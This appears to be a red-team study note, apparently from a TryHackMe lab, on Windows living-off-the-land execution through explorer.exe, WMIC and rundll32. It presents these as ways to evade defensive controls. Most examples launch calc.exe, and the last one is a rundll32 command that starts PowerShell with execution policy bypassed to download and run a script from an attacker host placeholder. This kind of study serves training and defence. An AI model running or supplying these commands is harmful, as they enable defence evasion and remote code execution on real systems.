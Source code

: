## Table of Contents

  - [Table of Contents](#Table\of\Contents)
    - [**Signed Binary Proxy Execution** or **Indirect Command Execution**](#**Signed\Binary Proxy Execution** or **Indirect\Command\Execution**)
          - [To creata a chile process of explorer.exe as (parent). Execute the following:](#To\creata\a\chile\process\of\explorer.exe\as\(parent).\Execute\the\following:)
- [WMIC #windows #WMIC](#wmic\#windows\#wmic)
- [Rundll32 #rundll32 #windows #LoL #bypass #execution](#rundll32\#rundll32\#windows\#lol\#bypass\#execution)

## Table of Contents

    - [**Signed Binary Proxy Execution** or **Indirect Command Execution**](#**Signed\Binary Proxy Execution** or **Indirect\Command\Execution**)
          - [To creata a chile process of explorer.exe as (parent). Execute the following:](#To\creata\a\chile\process\of\explorer.exe\as\(parent).\Execute\the\following:)
- [WMIC #windows #WMIC](#wmic\#windows\#wmic)
- [Rundll32 #rundll32 #windows #LoL #bypass #execution](#rundll32\#rundll32\#windows\#lol\#bypass\#execution)

#payload
#exiltrate 
#execution
#bypass
#iex
#LoL
#LivingOffTheLand 
#windows 
#WMIC 
### **Signed Binary Proxy Execution** or **Indirect Command Execution**
	Attacker leverages other system tools to spawn payloads to evade defensive controls
The explorer.exe binary is located at:  

- C:\Windows\explorer.exe
###### To creata a chile process of explorer.exe as (parent). Execute the following:
```powershell
C:\Users\Autist> explorer.exe /root,"C:\Windows\System32\calc.exe"
```
	calc pop gg get fucked #1337




# WMIC #windows #WMIC
	Command line util that manages windows components

The MITRE ATT&CK framework refers to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/))

Command Prompt

```powershell
C:\Users\thm> . . . \
wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 1740;
        ReturnValue = 0;
};
C:\Users\thm>
```

The previous WMIC command creates a new process of a binary of our choice, which in this case calc.exe.


# Rundll32 #rundll32 #windows #LoL #bypass #execution 

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as **Signed Binary Proxy Execution: Rundll32** and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

Located at:
```powershell
C:\Windows\System32\rundll32.exe for 32-bit Version
C:\Windows\SysWOW64\rundll32.exe for 64-bit Version
```

Ex:
```powershell
C:\Users\thm> . . . \
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
\
```
	Uses embedded Javascript componenet eval() to execute the calc.exe binary

As we mentioned previously, we can also execute PowerShell scripts using the rundll32.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.

Command Prompt

```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```



















